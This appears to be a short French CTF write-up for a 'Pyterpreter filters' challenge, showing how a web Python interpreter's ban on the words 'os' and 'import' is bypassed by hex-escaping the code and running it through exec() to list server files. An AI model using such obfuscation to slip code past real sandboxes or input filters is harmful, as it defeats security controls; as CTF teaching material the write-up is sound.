 # Pyterpreter filters

![img](./0.png)

## Challenge :

On a le même site, et on veut le flag, c'est tout.

## Stratégie :

On peut déjà regarder les fichiers comme avant :

```py
import os
print(os.listdir())

> Tu ne peux pas mettre 'os' dans ton code !<br/>Tu ne peux pas mettre 'import' dans ton code !<br/>
```

Mince, ça marchera pas.

Essayons d'encoder ça :

```py
import os
print(os.listdir())
```

Ca deviens 

```
\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29
```

On essaie :

```py
t = "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29".encode('raw_unicode_escape').decode('utf8')
exec(t)

> t = "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29".encode('raw_unicode_escape').decode('utf8')
exec(t)
```

Et il suffit juste de faire comme si il n'y avait pas de filtre !